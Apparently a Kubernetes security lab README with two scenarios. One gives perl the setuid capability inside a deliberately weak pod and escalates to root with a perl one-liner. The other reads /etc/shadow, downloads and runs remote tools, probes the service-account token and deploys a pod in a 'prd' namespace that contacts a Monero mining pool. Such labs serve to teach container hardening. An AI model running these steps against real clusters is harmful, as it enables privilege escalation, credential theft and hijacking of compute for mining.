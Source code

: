 # Scenario 1: Perform privilege escalation 

## setup the environment

1- create pod :

```bash
cd /tmp; cat > dev-dashboard.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: dev-dashboard
  labels:
    app: dev-dashboard
spec:
  containers:
  - name: dev-dashboard
#    securityContext:
#      runAsUser: 10000
#      runAsGroup: 10000
    image: ubuntu:latest
    command: ["/bin/sleep", "3650d"]
    imagePullPolicy: IfNotPresent
  restartPolicy: Always
EOF
```

2- deploy the pod 

```bash
kubectl apply -f dev-dashboard.yml
```

3- access the new pod 

```bash
kubectl exec -it dev-dashboard -- bash
```

4- install some additoin 

```bash
apt update
apt install curl -y 
apt install  libcap2-bin -y 
apt install sudo -y
```

5- set up Perl command with administrative rights.

```bash
setcap cap_setuid+ep /usr/bin/perl
```

6- create new user 

```bash 
adduser demo
```

## starting the attack

Information-gathering:

```bash
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

```bash
cat /etc/shadow
ls -l /root 
ls -l /home
```

Display the capabilities /check the files that have setuid permission 

```bash
getcap -r / 2>/dev/null
sudo -l
```
in this case, the binary /usr/bin/perl has the SUID set.

privilage escalation

Capabilities are those permissions that divide the privileges of kernel user or kernel level programs into small pieces so that a process can be allowed sufficient power to perform specific privileged tasks.

```bash
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

# Scenario 2: Cryptomining

Information-gathering:

```bash
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

```bash
cat /etc/shadow
ls -l /root 
ls -l /home
```

```bash
ln -s /etc/shadow sh-link
```

Here we download and run a basic Linux config auditor to see if it finds any obvious opportunities. 
``` bash
cd /tmp; curl http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz | tar -xzvf -; unix-privesc-check-1.4/unix-privesc-check standard
```

Is it a container? 
amicontainer —> is a container introspection tool that lets you find out what container runtime is being used as well as the features available.

```bash
cd /tmp; curl -L -o amicontained https://github.com/genuinetools/amicontained/releases/download/v0.4.7/amicontained-linux-amd64; chmod 555 amicontained; ./amicontained
```

Now let's inspect our Kubernetes environment:

```bash
env | grep -i kube
```
```bash
curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version
```
```bash
ls /var/run/secrets/kubernetes.io/serviceaccount
```
We have typical Kubernetes-related environment variables defined, let's see if the Kubernetes security configuration is sloppy.

```bash
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://dl.k8s.io/release/v1.22.0/bin/linux/amd64/kubectl; chmod 555 kubectl
```

```bash
kubectl get all
```

By default, kubectl will attempt to use the default service account in /var/run/secrets/kubernetes.io/serviceaccount -- and it looks like this one has some API access

- Let's inspect what all we can do:

```bash
kubectl auth can-i --list
```

```bash
kubectl auth can-i create pods
```
```bash
cd /tmp; cat > crypto.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: crypto
  namespace: prd
  labels:
    app: crypto
spec:
  containers:
  - name: crypto
    image: ubuntu:latest
    command: ["/bin/sh"]
    args: ["-c", "apt update && apt install curl -y && curl pool.minexmr.com"]
    imagePullPolicy: IfNotPresent
  restartPolicy: Always
EOF
./kubectl apply -f crypto.yml
sleep 10
./kubectl get pods
```
